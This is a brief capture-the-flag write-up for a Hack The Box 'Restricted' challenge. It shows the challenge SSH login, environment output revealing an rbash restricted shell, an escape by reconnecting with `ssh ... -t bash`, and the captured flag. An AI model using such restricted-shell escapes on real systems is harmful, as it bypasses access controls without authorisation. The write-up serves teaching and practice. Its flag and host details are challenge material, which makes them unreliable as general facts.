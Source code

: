 # misc/Restricted

### Description
> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

We have access to shell

`ssh restricted@165.232.108.249 -p 30824`

Here we can use `export` command:

```declare -x HOME="/home/restricted"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="restricted"
declare -x MOTD_SHOWN="pam"
declare -x OLDPWD
declare -rx PATH="/home/restricted/.bin"
declare -x PWD="/home/restricted"
declare -rx SHELL="/bin/rbash"
declare -x SHLVL="1"
declare -x SSH_CLIENT="165.232.108.249 37187 1337"
declare -x SSH_CONNECTION="165.232.108.249 37187 10.244.14.59 1337"
declare -x SSH_TTY="/dev/pts/0"
declare -x TERM="xterm-256color"
declare -x USER="restricted"
```
Here we can see second ssh connection in local network, we can connect to it with pseudo-terminal

`ssh 10.244.14.59 -p 1337 -t bash`

Flag is located in /flag_8dpsy

*HTB{r35tr1ct10n5_4r3_p0w3r1355}*

